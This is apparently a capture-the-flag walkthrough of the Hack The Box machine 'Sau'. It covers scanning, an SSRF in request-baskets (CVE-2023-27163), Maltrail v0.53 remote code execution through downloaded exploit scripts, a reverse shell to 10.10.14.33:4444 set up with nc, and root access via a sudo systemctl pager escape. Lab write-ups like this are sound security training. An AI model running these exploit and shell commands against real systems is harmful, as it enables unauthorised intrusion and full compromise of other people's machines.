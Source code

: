 # Sau - Easy

```sh
sudo vim /etc/hosts
# map sau.htb to target IP

nmap -T4 -p- -A -Pn -v sau.htb
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
    * 55555/tcp - unknown

* From the ```nmap``` scan, we have a lot of filtered, unknown services - these may be internal services that we can't access yet

* The service running on port 55555 is not recognised; we can try interacting with it using ```nc``` or the browser

* On navigating to <http://sau.htb:55555>, on /web, we get a website to "create a basket to collect & inspect HTTP requests" - this is powered by ```request-baskets```, v1.2.1

* Directory scan:

    ```sh
    feroxbuster -u http://sau.htb:55555 -w /usr/share/dirb/wordlists/common.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent
    ```

* On searching for any exploits associated with the version of ```request-baskets```, we get a SSRF vuln [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

* According to the exploit, we can specify unintended services (such as network-closed apps, running on target localhost) to be accessed by the web app on port 55555; we can check for a few internal services which were filtered in the scan:

    ```sh
    wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh

    chmod +x CVE-2023-27163.sh

    ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
    # this creates a basket 'fuvgnd'
    # it will make the request to the internal service on port 80
    ```

* Now, if we access <http://sau.htb:55555/fuvgnd>, we can see the internal service on port 80, which is running Maltrail v0.53

* This version of [Maltrail has an exploit associated](https://github.com/spookier/Maltrail-v0.53-Exploit) with it:

    ```sh
    wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py -O maltrail-v0.53-rce.py

    # setup listener
    nc -nvlp 4444

    python3 maltrail-v0.53-rce.py 10.10.14.33 4444 http://sau.htb:55555/fuvgnd

    # this gives us a reverse shell
    ```

* Now, we have a reverse shell as user 'puma':

    ```sh
    # for stable reverse shell
    export TERM=xterm
    # Ctrl + Z to background shell

    stty raw -echo; fg
    # press Enter twice

    id
    # puma

    ls -la /home

    ls -la /home/puma
    # get user flag

    # check for privesc vectors

    sudo -l
    # puma can run this command as root
    # (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    ```

* Checking on [GTFOBins](https://gtfobins.github.io/), we have a local privesc vuln for systemctl, associated with CVE-2023-26604 - this can get us root:

    ```sh
    # run the sudo command
    sudo /usr/bin/systemctl status trail.service
    
    # this launches the output in the 'less' pager - we can execute commands here
    !sh
    # this launches root shell

    ls -la /root/
    # get root flag
    ```
